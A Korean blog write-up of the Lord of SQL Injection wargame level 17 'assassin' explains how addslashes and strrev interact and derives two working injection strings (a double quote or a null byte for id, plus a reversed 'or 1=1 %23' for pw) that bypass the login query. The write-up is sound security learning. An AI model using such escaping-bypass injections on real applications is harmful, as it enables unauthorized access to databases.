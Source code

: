 ```yaml
---
title: LOS - 17번 assassin
category: [Wargame, Lord of SQL Injection]
---
```


# [17] assassin

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcaJoin%2Fbtrnv2nQH5t%2F6gwsXknWYq16dGaBl6TdQk%2Fimg.png">

## 풀이
처음 보는 함수가 나왔다.

<br>

strrev는 입력받은 문자열을 거꾸로 뒤집어서 반환하는 함수다.

strrev("hello") ⇒ olleh

이런 식이다.

<br>

주의할 점은, Byte 단위로 뒤집기 때문에 2Byte 문자인 한글이 들어가면 깨지게 된다는 점이다.

<br>

이번 문제에서는 여러번 접했었던 addslashes를 좀 더 정확히 볼 필요가 있을 것 같다.

addslashes는 **싱글쿼터, 더블쿼터, 역슬래시, Null Byte** 앞에 역슬래시를 붙여주는 함수다.

<br>

주어진 쿼리문을 보겠다.


```php
$query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
```

쿼리문 자체는 16번 문제와 다른 점이 없다.

16번에서는 id에 **역슬래시**, pw에 **or 1=1 %23** 을 주어 문제를 풀었었다.

<br>

이번 문제에서 새로 고려하여야하는 점은

① 역슬래시가 이스케이핑 될 것이라는 점과

② strrev에 의해 문자열이 거꾸로 읽힐 것이라는 점이다.

<br>

pw의 경우는 간단하다. 그냥 문자열을 거꾸로 입력해주면 된다.

- %23 1=1 ro

<br>

id가 이 문제의 포인트인데,

싱글쿼터, 더블쿼터, 역슬래시, Null Byte를 id의 페이로드로 주었을 때를 각각 살펴보겠다.

<br>

[1] 싱글쿼터 (id=<span style="background:aquamarine;">'</span>&pw=%23 1=1 ro)

addslashes ⇒ \\'

strrev ⇒ '\

최종 쿼리 ⇒ where id=''<span style="background:lightgrey">\\'</span> and pw='or 1=1 %23'

- 잘못된 접근이다. 싱글쿼터에 의해 id의 파라미터 부분이 바로 닫혀버린 후, \\'가 바깥에 남겨지므로 올바르지 않은 쿼리문이 만들어진다.

<br>

[2] 더블쿼터 (id=<span style="background:aquamarine;">"</span>&pw=%23 1=1 ro)

addslashes ⇒ \\"

strrev ⇒ "\

최종 쿼리 ⇒ where id='<span style="background:lightpink;">"\\' and pw=</span>'or 1=1 %23'

- 올바른 접근이다! 빨간색 부분이 통째로 id의 파라미터로 취급된다.

- FALSE or TRUE 이므로 문제가 풀릴 것이다.

- solve

<br>

[3] 역슬래시 (id=<span style="background:aquamarine;">\\</span>&pw=%23 1=1 ro)

addslashes ⇒ \\\\

strrev ⇒ \\\\

최종 쿼리 ⇒ where id='<span style="background:lightpink;">\\\\</span>' and pw='or 1=1 %23'

- 잘못된 접근이다. \\는 일반 문자 역슬래시로 취급되므로, 빨간색 부분이 id의 파라미터가 된다.

<br>

[4] Null Byte (id=<span style="background:aquamarine;">%00</span>&pw=%23 1=1 ro)

addslashes ⇒ \0 

strrev ⇒ 0\

최종 쿼리 ⇒ where id='<span style="background:lightpink;">0\\' and pw=</span>'or 1=1 %23'

- 올바른 접근이다! 빨간색 부분이 통째로 id의 파라미터로 취급된다.

- FALSE or TRUE 이므로 문제가 풀릴 것이다.

- solve

<br>

이상의 분석을 통해, 정답은 두 가지임을 확인했다.

 
```
id="&pw=%23 1=1 ro
```

```
id=%00&pw=%23 1=1 ro
```

## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbO4j8k%2Fbtrnv13x3ev%2FvuNs9qfwKd6dQJIrzqtXB0%2Fimg.png">